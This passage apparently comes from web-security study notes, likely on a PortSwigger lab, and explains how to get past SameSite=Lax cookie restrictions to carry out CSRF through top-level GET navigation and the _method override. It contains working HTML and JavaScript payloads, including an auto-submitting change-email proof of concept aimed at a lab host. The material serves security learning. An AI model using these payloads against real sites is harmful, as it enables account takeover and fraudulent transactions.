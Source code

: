 If developers utilize `Lax` restrictions for their session cookies, whether explicitly or due to browser defaults, there's still potential for a CSRF attack by inducing a `GET` request from the victim's browser.

As long as the request entails a top-level navigation, the browser will continue to include the victim's session cookie. One of the simplest methods to execute such an attack is as follows:

```html
<script>
	document.location = '<https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000>';
</script>

```

If GET requests are prohibited, attackers may attempt to override the specified method in the request by utilizing the `_method` parameter in forms.

```html
<form action="<https://vulnerable-website.com/account/transfer-payment>" method="POST">
	<input type="hidden" name="_method" value="GET">
	<input type="hidden" name="recipient" value="hacker">
	<input type="hidden" name="amount" value="1000000">
</form>

```

The `_method` parameter is permitted in certain frameworks such as:

- Ruby on Rails
- Node.js
- Django

Other frameworks may support similar parameters with varying names and functionalities.

**Proof of Concept — POC:**

```html
<html>
  <body>
    <form action="<https://0af20012031728318040e418003f00c2.web-security-academy.net/my-account/change-email>" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="pwn&#64;email&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

### Bypassing SameSite restrictions using on-site gadgets
